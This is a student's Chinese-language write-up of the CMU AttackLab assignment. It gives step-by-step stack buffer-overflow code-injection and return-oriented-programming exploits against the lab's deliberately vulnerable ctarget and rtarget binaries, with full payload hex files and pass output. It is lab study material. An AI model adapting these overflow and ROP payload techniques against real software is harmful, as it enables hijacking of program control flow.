





# AttackLab

> 计64 翁家翌 2016011446

[TOC]

## Phase1

使用命令 `objdump -d ctarget > ctarget.d` 得到反汇编代码 `ctarget.d`。查找 `getbuf` 函数位置：

```assembly
00000000004017f5 <getbuf>:
  4017f5:	48 83 ec 38          	sub    $0x38,%rsp
  4017f9:	48 89 e7             	mov    %rsp,%rdi
  4017fc:	e8 7e 02 00 00       	callq  401a7f <Gets>
  401801:	b8 01 00 00 00       	mov    $0x1,%eax
  401806:	48 83 c4 38          	add    $0x38,%rsp
  40180a:	c3                   	retq   
```

`BUFFER_SIZE` 为 0x38，56个字符，因此56个字符之后的8个bit存储函数返回地址。

查找 `touch1` 函数位置：

```assembly
000000000040180b <touch1>:
  40180b:	48 83 ec 08          	sub    $0x8,%rsp
  40180f:	c7 05 03 2d 20 00 01 	movl   $0x1,0x202d03(%rip)        # 60451c <vlevel>
  401816:	00 00 00 
  401819:	bf 03 31 40 00       	mov    $0x403103,%edi
  40181e:	e8 ad f4 ff ff       	callq  400cd0 <puts@plt>
  401823:	bf 01 00 00 00       	mov    $0x1,%edi
  401828:	e8 97 04 00 00       	callq  401cc4 <validate>
  40182d:	bf 00 00 00 00       	mov    $0x0,%edi
  401832:	e8 19 f6 ff ff       	callq  400e50 <exit@plt>
```

构造攻击代码 `phase1.txt` 如下：

```
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
0b 18 40 00 00 00 00 00
```

使用命令 `./hex2raw < phase1.txt > 2016011446.ctarget.l1; ./ctarget -q -i 2016011446.ctarget.l1` 得到如下结果：

```
Cookie: 0x47db4e3a
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	liu
	course	15213-f15
	lab	attacklab
	result	2:PASS:0xffffffff:ctarget:1:41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 0B 18 40 00 00 00 00 00 
```



## Phase2

与Phase1类似，只不过要把 `%rdi` 改写成 `cookie.txt` 中的 `0x47db4e3a`，由于栈地址固定（没有ASLR），这一步需要获取固定栈地址。

编写攻击代码 `phase2.s` 如下 （cookie值为 `0x47db4e3a`）：

```assembly
movq $0x47db4e3a, %rdi
retq
```

使用命令 `gcc -c phase2.s; objdump -d phase2.o > phase2.d` 得到文件 `phase2.d` 如下：

```assembly
phase2.o：     文件格式 elf64-x86-64
Disassembly of section .text:
0000000000000000 <.text>:
   0:	48 c7 c7 3a 4e db 47 	mov    $0x47db4e3a,%rdi
   7:	c3                   	retq   
```

得到执行代码 `48 c7 c7 3a 4e db 47 c3` 。

查看 `touch2` 函数代码如下：

```assembly
0000000000401837 <touch2>:
  401837:	48 83 ec 08          	sub    $0x8,%rsp
  ...
```

并且需要知道栈地址，使用命令 `gdb ctarget` 打开gdb之后运行

```gdb
b getbuf
r -q
n
```

执行到 `0x4017f5 <getbuf+0>       sub    rsp, 0x38` 之后，`%rsp` 的值为 `0x55652778`， 如下所示：

```assembly
gef➤  n
14	in buf.c
───────────────────────────────────────────────────────────────────[ registers ]────
$rax   : 0x0000000000000000
$rbx   : 0x0000000055586000  →  0x0000000055586000
$rcx   : 0x000000000000000c
$rdx   : 0x00007ffff7dd3780  →  0x00007ffff7dd3780
$rsp   : 0x0000000055652778  →  0x00000000000000f4
$rbp   : 0x0000000055685fe8  →  0x0000000000402fe5  →  0x3a6968003a697168 ("hqi:"?)
$rsi   : 0x000000000000000c
$rdi   : 0x000000000060601c  →  0x000a613365346264 ("db4e3a"?)
$rip   : 0x00000000004017f9  →  <getbuf+4> mov rdi, rsp
$r8    : 0x00007ffff7fb3700  →  0x00007ffff7fb3700  →  [loop detected]
$r9    : 0x000000000000000c
$r10   : 0x00000000004032f4  →  "Type string:"
$r11   : 0x00007ffff7b7f970  →  <__memset_avx2+0> vpxor xmm0, xmm0, xmm0
$r12   : 0x0000000000000002
$r13   : 0x0000000000000000
$r14   : 0x0000000000000000
$r15   : 0x0000000000000000
$cs    : 0x0000000000000033
$ss    : 0x000000000000002b
$ds    : 0x0000000000000000
$es    : 0x0000000000000000
$fs    : 0x0000000000000000
$gs    : 0x0000000000000000
$eflags: [carry PARITY ADJUST zero sign trap INTERRUPT direction overflow resume virtualx86 identification]
───────────────────────────────────────────────────────────────────────[ stack ]────
0x0000000055652778│+0x00: 0x00000000000000f4	 ← $rsp
0x0000000055652780│+0x08: 0x00000000556527d0  →  0xf4f4f4f4f4f4f4f4
0x0000000055652788│+0x10: 0x0000000055652788
0x0000000055652790│+0x18: 0x0000000055652790
0x0000000055652798│+0x20: 0x0000000055652798
0x00000000556527a0│+0x28: 0x00000000556527a0
0x00000000556527a8│+0x30: 0x0000000055586000  →  0x0000000055586000
0x00000000556527b0│+0x38: 0x00000000004019c4  →  <test+14> mov edx, eax
─────────────────────────────────────────────────────────────[ code:i386:x86-64 ]────
     0x4017e0 <scramble+1149>  xor    rsi, QWORD PTR fs:0x28
     0x4017e9 <scramble+1158>  je     0x4017f0 <scramble+1165>
     0x4017eb <scramble+1160>  call   0x400cf0 <__stack_chk_fail@plt>
     0x4017f0 <scramble+1165>  add    rsp, 0x38
     0x4017f4 <scramble+1169>  ret    
     0x4017f5 <getbuf+0>       sub    rsp, 0x38
 →   0x4017f9 <getbuf+4>       mov    rdi, rsp
     0x4017fc <getbuf+7>       call   0x401a7f <Gets>
     0x401801 <getbuf+12>      mov    eax, 0x1
     0x401806 <getbuf+17>      add    rsp, 0x38
     0x40180a <getbuf+21>      ret    
     0x40180b <touch1+0>       sub    rsp, 0x8
─────────────────────────────────────────────────────────────────────[ threads ]────
[#0] Id 1, Name: "ctarget", stopped, reason: SINGLE STEP
───────────────────────────────────────────────────────────────────────[ trace ]────
[#0] 0x4017f9 → Name: getbuf()
[#1] 0x4019c4 → Name: test()
[#2] 0x401f5b → Name: launch(offset=<optimized out>)
[#3] 0x402031 → Name: stable_launch(offset=<optimized out>)
───────────────────────────────────────────────────────────────────────────────────
```

构造攻击代码 `phase2.txt` 如下：

```
48 c7 c7 3a 4e db 47 c3
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
78 27 65 55 00 00 00 00
37 18 40 00 00 00 00 00
```

其中第一行为 `phase2.s` 的机器码，2-7行为填充，8行为 `%rsp` 地址，9行为 `touch2` 地址。执行时读入buffer，修改返回地址为 `0x55652778`，上一级返回地址为 `0x401837`，紧接着在栈上执行代码 `48 c7 c7 3a 4e db 47 c3` 修改 `%rdi`，返回至 `0x401837`，调用 `touch2`。

使用命令 `./hex2raw < phase2.txt > 2016011446.ctarget.l2; ./ctarget -q -i 2016011446.ctarget.l2` 得到如下结果：

```bash
n+e:~/wlxt/wjy/汇编语言程序设计(0)(2017-2018夏季学期)/attack/target2 ./hex2raw < phase2.txt > 2016011446.ctarget.l2; ./ctarget -q -i 2016011446.ctarget.l2 
Cookie: 0x47db4e3a
Touch2!: You called touch2(0x47db4e3a)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
	user id	liu
	course	15213-f15
	lab	attacklab
	result	2:PASS:0xffffffff:ctarget:2:48 C7 C7 3A 4E DB 47 C3 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 78 27 65 55 00 00 00 00 37 18 40 00 00 00 00 00 
```



## Phase3

大体思路同Phase2，只不过要把传的参数 `%rdi` 从数字换成指针，输入cookie的字符表示，还需要注意函数 `hexmatch` 中有可能会往栈中填充其他数据。试验了几种方法之后我决定把cookie字符串放在最后面，避免数据被覆盖的问题。

构造攻击代码 `phase3.txt` 如下：

```text
48 c7 c7 c0 27 65 55 c3
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
78 27 65 55 00 00 00 00
48 19 40 00 00 00 00 00
34 37 64 62 34 65 33 61
```

其中第一行为 

```asm
movq $0x556527c0, %rdi
ret
```

在Phase2中，已经获得了buffer在栈上的位置为 `0x55652778`，字符串位置的偏移量为72，$0x55652778+72=0x556527c0$。这样一来在进入函数 `hexmatch` 的时候 `sval` 指向 `0x556527c0`，这个位置上存储的是 字符串 `47db4e3a`，并且在之后的操作中不会覆盖掉之前的数据。

使用命令 `./hex2raw < phase3.txt > 2016011446.ctarget.l3; ./ctarget -q -i 2016011446.ctarget.l3` 得到如下结果：

```bash
n+e:~/wlxt/wjy/汇编语言程序设计(0)(2017-2018夏季学期)/attack/target2 ./hex2raw < phase3.txt > 2016011446.ctarget.l3; ./ctarget -q -i 2016011446.ctarget.l3
Cookie: 0x47db4e3a
Touch3!: You called touch3("47db4e3a")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
	user id	liu
	course	15213-f15
	lab	attacklab
	result	2:PASS:0xffffffff:ctarget:3:48 C7 C7 C0 27 65 55 C3 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 78 27 65 55 00 00 00 00 48 19 40 00 00 00 00 00 34 37 64 62 34 65 33 61 
```



## Phase4

在 `rtarget` 中不允许在栈上执行代码，并且开了ASLR，但是按照pdf的提示，可以利用 `farm.c` 中的garget来组成汇编代码段，达成攻击目的。

使用命令 `objdump -d rtarget > rtarget.d` 得到反汇编代码 `rtarget.d`。查看 `getbuf` 函数得知还是 `BUFFER_SIZE=0x38`。

大致思路是把cookie存到栈中的某个位置，然后如果能直接 `pop %rdi` 之后直接进入 `touch2` 函数即可。可是在garget中没有 `pop %rdi` ，因此需另辟蹊径。查看后发现有 `pop %rax` 和 `movq %rax, %rdi` 两句话，可以拼起来。

构造攻击代码 `phase4.txt` 如下：

```text
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
fe 19 40 00 00 00 00 00
3a 4e db 47 00 00 00 00
ed 19 40 00 00 00 00 00
37 18 40 00 00 00 00 00
```

其中 `0x4019fe` 为 `58 c3`，对应汇编代码为 `pop %rax; ret`；`0x47db4e3a` 为cookie；`0x4019ed` 为 `movq %rax, %rdi; ret`；`0x401837` 为 `touch2` 函数地址。

使用命令 `./hex2raw < phase4.txt > 2016011446.rtarget.l1; ./rtarget -q -i 2016011446.rtarget.l1` 得到如下结果：

```bash
n+e:~/wlxt/wjy/汇编语言程序设计(0)(2017-2018夏季学期)/attack/target2 ./hex2raw < phase4.txt > 2016011446.rtarget.l1; ./rtarget -q -i 2016011446.rtarget.l1
Cookie: 0x47db4e3a
Touch2!: You called touch2(0x47db4e3a)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
	user id	liu
	course	15213-f15
	lab	attacklab
	result	2:PASS:0xffffffff:rtarget:2:41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 FE 19 40 00 00 00 00 00 3A 4E DB 47 00 00 00 00 ED 19 40 00 00 00 00 00 37 18 40 00 00 00 00 00 
```



## Phase5

大致思路为：获取 `%rsp` 指向的地址，存到某个寄存器中，添加偏移量 `offset` 使其指向cookie的位置，然后调用 touch3。同Phase3，cookie 需要放到 stack 最后。

写成汇编代码大致为：

```assembly
movq %rsp, %rdi
movq offset, %rsi
leaq (%rdi, %rsi, 1), %rax
movq %rax, %rdi
callq touch3
"cookie"
```

翻译成garget如下：

```assembly
movq %rsp, %rax
movq %rax, %rdi
pop %rax
offset 0x48
movl %eax, %ecx
movl %ecx, %edx
movl %edx, %esi
leaq (%rdi, %rsi, 1), %rax
movq %rax, %rdi
0x401948 <touch3>
"47db4e3a"
```

由于 `movq %rsp, %rax` 执行完之后去掉 `pop` 语句还有9句话才到cookie，因此offset为 `8*9=72=0x48`。

构造攻击代码 `phase5.txt` 如下：

```text
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
b4 1a 40 00 00 00 00 00
f4 19 40 00 00 00 00 00
fe 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
2e 1a 40 00 00 00 00 00
9f 1a 40 00 00 00 00 00
49 1a 40 00 00 00 00 00
21 1a 40 00 00 00 00 00
f4 19 40 00 00 00 00 00
48 19 40 00 00 00 00 00
34 37 64 62 34 65 33 61
```

含义如前所述。

使用命令 `./hex2raw < phase5.txt > 2016011446.rtarget.l2; ./rtarget -q -i 2016011446.rtarget.l2` 得到如下结果：

```bash
n+e:~/wlxt/wjy/汇编语言程序设计(0)(2017-2018夏季学期)/attack/target2 ./hex2raw < phase5.txt > 2016011446.rtarget.l2; ./rtarget -q -i 2016011446.rtarget.l2
Cookie: 0x47db4e3a
Touch3!: You called touch3("47db4e3a")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
	user id	liu
	course	15213-f15
	lab	attacklab
	result	2:PASS:0xffffffff:rtarget:3:41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 B4 1A 40 00 00 00 00 00 F4 19 40 00 00 00 00 00 FE 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 2E 1A 40 00 00 00 00 00 9F 1A 40 00 00 00 00 00 49 1A 40 00 00 00 00 00 21 1A 40 00 00 00 00 00 F4 19 40 00 00 00 00 00 48 19 40 00 00 00 00 00 34 37 64 62 34 65 33 61 
```




